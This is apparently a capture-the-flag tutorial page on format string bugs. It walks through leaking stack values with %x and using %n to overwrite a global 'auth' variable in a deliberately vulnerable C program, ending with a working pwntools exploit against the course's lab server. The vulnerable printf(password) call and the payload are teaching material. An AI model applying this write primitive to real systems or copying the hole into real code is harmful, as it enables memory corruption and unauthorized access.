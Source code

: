 ```yaml
---
description: Performing arbitrary writes using format strings.
---
```


# format

{% file src="../../.gitbook/assets/format.zip" %}

This is an introduction to the **arbitrary write** of the format string bug. This allows us to write arbitrary values to an address of our choice. We use this to overwrite an authentication variable, which allows us to get the flag.

### Binary Static Analysis

For this binary, we will supply the source code to understand the binary better. This is the binary:

{% code title="findme.c" lineNumbers="true" %}
```c
#include <stdio.h>

int auth = 0;

int main() {
    char password[100];

    puts("Password: ");
    fflush(stdout);
    fgets(password, sizeof password, stdin);

    printf(password);
    printf("Auth is %i\n", auth);

    if(auth == 10) {
        system("cat flag.txt");
    }
}
```
{% endcode %}

In this case, here's what we notice:

* There is a secure `fgets` call that doesn't allow for buffer overflow. This means that we can't just overwrite the `auth` variable (we also know that global variables get loaded into a different memory segment, so buffer overflow doesn't make much sense).
* There is a format string vulnerability where they print our password. This means that we can leak data off the stack.
* Our goal is to modify `auth`, which is a global variable. This is where the _arbitrary write_ comes in. We have a slight advantage that `auth` is global, meaning its address is known at compile time. This means that we can write to it directly.

Let's first see what kind of data we can leak. We'll use a series of `%x` inputs to leak as much data as possible.

```bash
$ ./format
Password: 
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
64 f7e2a620 80491bd 0 1 f7fc1a40 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
Auth is 0
```

We notice that a series of the same data pattern reappears after a few iterations. A quick observation shows us that:

```bash
$ python3 -c "print(''.join(hex(ord(x))[2:] for x in '%x '))"
257820
```

This means that this pattern represents our input! Our input starts at the 7th position off the stack. **This is vital info**; we can use this as a baseline for where we are in memory.

### Arbitrary Writes

There is a special format specifier in C that has a particular function: `%n`. `%n` is unlike the other format specifiers in that it _stores_ data, namely **the number of bytes written thus far**. Typically, this is used like below:

```c
int main(void)
{
    int bytes;
    printf("Hello World%n\n", &bytes);
    printf("Bytes written: %d\n", bytes);
}
```

This prints:

```bash
$ ./test
Hello World
Bytes written: 11
```

How can we exploit this? If we can pass in an address of our choice, we can write a number to that address.

### Getting the Necessary Information

We need three things to perform an arbitrary write:

* The location on the stack of our buffer
* The location of the address we want to write
* The value we want to write

We figured out the first one already! We determined that our input started at the 7th position. Now we need the address of where we want to write. There are two ways to do this:

1. Use the list of global variables in `gdb`: `info variables` (`is` in `radare2`)
2. Use the symbol table, accessible with `readelf -s <binary>`

Either way, we get that `auth` is located at `0x0804c02c`. Finally, we know that we want to write 10 bytes, meaning that before we place the `%n`, we need to write 10 bytes.

Let's put this all together and discuss why this payload works:

```python
payload = p32(0x0804c02c)
payload += b'A' * 6
payload += b'%7$n'
```

We first write the address of `auth` to the stack. Then, we write six more bytes of data to fill the requirement of writing 10 bytes of data. Finally, we write the `%n` specifier, which writes the number of bytes written so far to the address at the 7th position on the stack. This is the address of `auth`, so we write `10` to `auth`!

### Exploiting the Binary

Let's put this all together and get the flag!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./format')
p = remote('vunrotc.cole-ellis.com', 3200)

payload = p32(0x0804c02c)
payload += b'A' * 0x6
payload += b'%7$n'

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gives:

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/03-formats/format/src/format'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to vunrotc.cole-ellis.com on port 3200: Done
[*] Switching to interactive mode
Password: 
flag{maybe_we_need_a_better_dev}
0\xcAAAAAA
Auth is 10
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 3200
```

We see that `auth` is changed, and the flag is printed!
